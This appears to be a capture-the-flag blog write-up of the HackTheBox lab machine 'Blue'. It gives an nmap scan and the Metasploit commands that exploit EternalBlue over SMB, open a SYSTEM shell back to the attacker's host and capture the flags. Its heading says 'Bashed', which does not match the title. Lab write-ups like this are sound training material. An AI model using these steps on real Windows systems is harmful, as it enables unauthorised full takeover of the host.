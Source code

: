 ```yaml
---
layout: post
title: HacktheBox - Blue
toc: true
subtitle: Retired Machine
comments: false
---
```


## Bashed ![propic](/pictures/blue/blue.png)

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/blue 10.10.10.68
```
![nmap](/pictures/blue/nmap.png)

There is an open port 445 (smb) from the default nmap script. It looks like it is running Windows 7 Professional 7601. A quick google search shows that it is vulnerable to EternalBlue.

![msfconsole](/pictures/blue/msfconsole.png)

I open up metasploit and search for keywords: smb eternalblue. I'll be using the first exploit(0).
```
msfconsole
search smb eternalblue
use 0
show options
set RHOSTS 10.10.*
set LHOST 10.10.*
exploit
shell
whoami (nt authority\system)
```
With a metasploit shell under system, I can capture both the user and root flags as shown below. Easy box!

![user](/pictures/blue/user.png)
![root](/pictures/blue/root.png)
